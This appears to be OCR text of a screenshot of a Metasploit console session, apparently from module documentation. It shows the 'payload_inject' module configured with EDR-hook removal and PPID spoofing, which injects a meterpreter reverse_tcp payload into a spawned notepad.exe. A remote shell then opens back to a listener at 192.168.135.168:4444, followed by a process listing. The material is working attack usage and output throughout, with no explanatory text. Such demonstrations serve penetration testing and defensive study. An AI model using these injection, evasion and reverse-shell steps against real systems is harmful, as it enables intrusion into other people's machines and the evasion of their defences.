 ```
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned process 684
[*] Injecting payload into 684
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 684
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49676) at 2020-01-22 13:12:07 -0600

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
 4     0     System
 88    4     Registry
.
.
.
 684   7524  notepad.exe                  x64   1        DESKTOP-D1E425Q\msfuser  C:\Windows\System32\notepad.exe
.
.
.
 7524  3632  revtcpx64.exe                x64   1        DESKTOP-D1E425Q\msfuser  C:\Users\msfuser\Desktop\revtcpx64.exe
 7532  4772  chrome.exe                   x64   1        DESKTOP-D1E425Q\msfuser  C:\Program Files (x86)\Google\Chrome\Application\chrome.exe
 7876  780   WmiPrvSE.exe
 7904  780   WmiPrvSE.exe
 8000  584   svchost.exe
 8036  584   svchost.exe

```